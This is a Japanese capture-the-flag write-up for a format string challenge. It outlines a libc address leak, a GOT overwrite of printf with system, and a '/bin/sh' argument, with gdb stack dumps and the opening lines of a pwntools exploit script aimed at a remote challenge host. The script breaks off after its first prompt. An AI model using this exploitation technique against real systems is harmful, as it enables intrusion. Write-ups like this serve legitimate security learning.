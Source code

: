 
<br />

### Solution
FSBが3回行えるようになっています。それぞれでやることは以下の通りです。

1) スタックから libc アドレスのリーク
2) GOT overwrite で printf を systemに。
3) 引数 '/bin/sh' をセット。

<br />

gdb を使って最初の fgets() のところでスタックの中身を確認し、`<puts+378>` があるのを見つけたのでそれを使いました。

<pre>
gef➤  x/16gx $rsp
0x7fffffffe160:	0x0000000000405060	0x00007ffff7fc54a0
0x7fffffffe170:	0x0000000000000000	0x00007ffff7e86709
0x7fffffffe180:	0x000000000000000a	0x00007ffff7e86b63
0x7fffffffe190:	0x0000000000000058	0x00007ffff7fc46a0
0x7fffffffe1a0:	0x0000000000402008	0x00007ffff7e7b76a
0x7fffffffe1b0:	0x0000000000000000	0x00007fffffffe1e0
0x7fffffffe1c0:	0x0000000000401070	0x0000000000000000
0x7fffffffe1d0:	0x0000000000000000	0x0000000000401162

gef➤  x/4gx 0x00007ffff7e7b76a
0x7ffff7e7b76a &lt;puts+378>:	0xffff77850ffff883	0x1f0ffffffef7e9ff
0x7ffff7e7b77a &lt;puts+394>:	0x01b9000000000084	0x0f41f0d089000000
</pre>


これが FSBを使って 15番目（`%15$016lx`）で取れるのは、何度かトライ＆エラーで見つけました。

<br />

{{< highlight python "linenos=table,hl_lines=5" >}}
#!/usr/bin/env python
# -*- coding:utf-8 -*-

from pwn import *
context(arch='amd64', os='linux')

s = remote('143.198.127.103', 42002)
# s = process('./fmtstr')

elf = ELF('./fmtstr', checksec=False)
libc = ELF('./libc-2.31.so', checksec=False)

# Before we start, would you like to learn about format string exploits?[y/N] (also, I fixed the overflow here :clown:)
# N
s.sendlineafter(b':clown:)\n', b'N')
